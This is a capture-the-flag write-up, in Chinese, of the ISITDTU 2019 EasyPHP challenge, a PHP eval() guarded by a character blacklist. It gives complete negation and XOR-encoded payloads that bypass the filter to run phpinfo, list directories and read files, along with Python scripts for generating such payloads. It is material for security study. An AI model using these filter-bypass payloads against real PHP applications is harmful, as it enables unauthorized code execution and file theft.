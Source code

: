 # \[ISITDTU 2019]EasyPHP

## \[ISITDTU 2019]EasyPHP

## 考点

* 无字符代码执行

## wp

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

代码执行，最后一个if不允许使用的字符超过12个

然后输入黑名单如下

```
ASCII值0-32
数字0-9 ASCII是48-57
'"`$&.,|[{_defgops ASCII对应39,34,96,36,38,46,44,124,91,123,95,100,101,102,103,111,112,115
```

到这里想到的绕过方式是异或和取反，然后在返回头看一下PHP版本是7.3，那就可以用函数执行的特性结合取反

phpinfo取反为%8F%97%8F%96%91%99%90，PHP7函数执行`(~%8F%97%8F%96%91%99%90)();`，长度为10

看到disable\_functions

![](../.gitbook/assets/image.png)

但是有字符使用的限制，所以还是要考虑其他方式。以前p牛说过无字符getshell可以用自增、位运算和取反，再偷一波陆队的思路。

现在可以考虑一下自增。PHP在获取HTTP参数时默认是字符串，然后可以用`!`进行布尔类型转换，再用`@`忽略notice输出，就可以把`!!@a`转化为数字1，然后再用`chr()`转换拼接就可以构造任意函数，但是需要用`.`拼接

```
// phpinfo();
(chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)-(!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a%2b!!@a)).chr((!!@a%2b!!@a%2b!!@a)**(!!@a%2b!!@a%2b!!@a)*(!!@a%2b!!@a%2b!!@a%2b!!@a)%2b(!!@a%2b!!@a%2b!!@a)))();
```

使用异或，如果用爆破的方法就会很慢，偷一波陆队的思路。先确定自己想执行的语句，比如phpinfo，然后定一个参考字符串，让phpinfo和它异或，就可以得到想要的输入，如果得到的结果不符合要求，再微调参考字符串

```
p:%8f^%ff
h:%97^%ff
i:%96^%ff
n:%91^%ff
f:%99^%ff
o:%90^%ff
```

结果是`%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff`，脚本如下：

```php
target = "phpinfo"
standard = 0xff

dicts = {}
for i in target:
    dicts[i] = hex(ord(i)^standard).replace('0x','%')

res = ''
for i in target:
    res = res+dicts[i]
print(res+'^'+"%ff"*len(target))
print(len(set(res+'^'+"%ff"*len(target))))
```

但是这里有个疑问，`%21^%4f`的结果是`n`，但是在测试的时候却不对

![](<../.gitbook/assets/image (18) (1).png>)

加上引号就可以了

![](<../.gitbook/assets/image (31) (1).png>)

用数字也是同样的道理，一开始一直报错，但是把数字用`trim`转换一下就可以了。然后用自增找到数字

![](<../.gitbook/assets/image (14) (1) (1).png>)

```
p:A^1
h:Y^1
i:X^1
n:Z^4
f:W^1
o:Z^5
```

结果是`AYAXZWZ^1111415`

```
(trim((!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)*((!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)%2b(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-(!!%40a%2b!!%40a)**(!!%40a%2b!!%40a%2b!!%40a%2b!!%40a%2b!!%40a)-!!%40a-!!%40a-!!%40a))%5e%40AYAXZWZ)();
```

这里如果要求字符种类最少，可以考虑使用%ff的方式，先生成语句，再去尝试找可以替换的字符。如下，共用了16个字符

```
print_r(scandir('.'))
(%8f%8d%96%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff)((%8c%9c%9e%91%9b%96%8d^%ff%ff%ff%ff%ff%ff%ff)((%d1^%ff)));
```

所以要找到可以替换的，即在内部可以互相异或出来的，目标代码用到的字符为`['n', 'p', 'c', 's', 'i', 'a', 't', 'd', 'r', '_', '.']`，写个脚本找一下

```python
s=['n', 'p', 'c', 's', 'i', 'a', 't',  'd', 'r', '_', '.']
for i in s:
    for j in s:
        for k in s:
            if (chr(ord(i)^ord(j)^ord(k)) in s):
                xorRes = i+'^'+j+'^'+k
                if len(set(xorRes)) == 4:
                    print(chr(ord(i)^ord(j)^ord(k))+'='+xorRes)
```

得到的结果对应如下

```
p %8f^%ff
r %8d^%ff
i %96^%ff    %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %8c^%ff    %9c^%ff^%9b^%8b
c %9c^%ff
a %9e^%ff    %8d^%ff^%9c^%8f
d %9b^%ff
. %d0^%ff
```

找一下就可以找到，原则先找必须存在的字符，比如`.`和`_`，那么`a,d,0`也必须存在，那么r就必须存在，同样的，对于字符c和d，在生成的URL编码中也有，所以c和d也必须存在，如果换掉，相当于没有做异或，对于n和i而言，哪个都可以，后续不牵扯到6和1，然后看t和s，他们也是哪个都可以，他们URL编码中的b和c都已经存在，最后是a和p，明显a含有的字符更多，要保留p

```
a=r^c^p
s=c^d^t 
i=c^d^n 
```

最后结果

```
p %8f^%ff
r %8d^%ff
i %9c^%ff^%9b^%91
n %91^%ff 
t %8b^%ff
_ %a0^%ff
s %9c^%ff^%9b^%8b
c %9c^%ff
a %8d^%ff^%9c^%8f
d %9b^%ff
. %d1^%ff
```

`print_r(scandir('.'))`

```
(%8f%8d%9c%91%8b%a0%8d^%ff%ff%ff%ff%ff%ff%ff^%ff%ff%9b%ff%ff%ff%ff^%ff%ff%91%ff%ff%ff%ff)((%9c%9c%8d%91%9b%9c%8d^%ff%ff%ff%ff%ff%ff%ff^%9b%ff%9c%ff%ff%9b%ff^%8b%ff%8f%ff%ff%91%ff)((%d1^%ff)));
```

![](<../.gitbook/assets/image (13).png>)

`readfile(end(scandir('.')))`

```
((%8D%9A%9E%9B%99%96%93%9A)^(%FF%FF%FF%FF%FF%FF%FF%FF))(((%9A%9E%9B)^(%FF%99%FF)^(%FF%96%FF)^(%FF%FF%FF))(((%8D%9E%9E%9E%9B%96%8D)^(%9A%9B%FF%99%FF%FF%FF)^(%9B%99%FF%96%FF%FF%FF)^(%FF%FF%FF%FF%FF%FF%FF))(%D1^%FF)));
```

## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

